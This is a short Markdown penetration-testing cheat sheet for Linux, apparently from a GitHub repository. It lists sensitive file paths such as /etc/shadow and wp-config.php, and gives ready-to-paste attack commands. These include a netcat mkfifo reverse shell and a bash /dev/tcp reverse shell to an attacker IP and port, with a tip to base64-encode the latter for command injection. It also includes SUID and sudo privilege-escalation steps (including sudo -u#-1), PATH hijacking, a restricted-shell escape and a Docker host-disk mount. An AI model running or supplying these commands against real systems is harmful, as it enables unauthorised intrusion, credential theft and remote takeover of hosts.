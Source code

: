 # Linux

## Important files (Default Location)

```
/etc/passwd
/etc/group
/etc/shadow
/var/www/html/
/var/www/
/tmp/
/home/
/var/log/nginx/access.log
/var/log/apache/access.log
/var/log/auth.log
/etc/apache2/sites-available/000-default.conf
/etc/samba/smb.conf
/var/www/html/wordpress/wp-config.php
/etc/fstab
/var/log/cron.log
```

### PrivEsc

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP_ADDR] [PORT] >/tmp/f
sudo -l   # /etc/sudoers
find / -perm -4000 2>/dev/null    # file with suid
find / -type f -writable 2>/dev/null
sudo -u#-1 /bin/bash
```

### Reverse Shell

```
echo "bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1" |bash    # base64 encode the echo cmd; use for os command injection (api)
```

### Not So Important But May Be Useful (Default Location)

```
/proc/cpuinfo
```

### PATH & Restricted Shell

```
export PATH=/tmp:$PATH
ssh alfred@10.11.1.101 -t "bash --noprofile"
```

### Docker

```shell
docker images
docker build -t [image-name] [Dockerfile location]    # building a docker image from the image file
docker run [image-name]   # running the docker image
---------------Mount SDA1----------------
fdisk -l
mkdir -p /mnt/tmpp
mount /dev/sda1 /mnt/tmpp
```

### Network & Firewall rules

```
iptables -L
cat /etc/sysconfig/iptables
cat /etc/resolv.conf
```
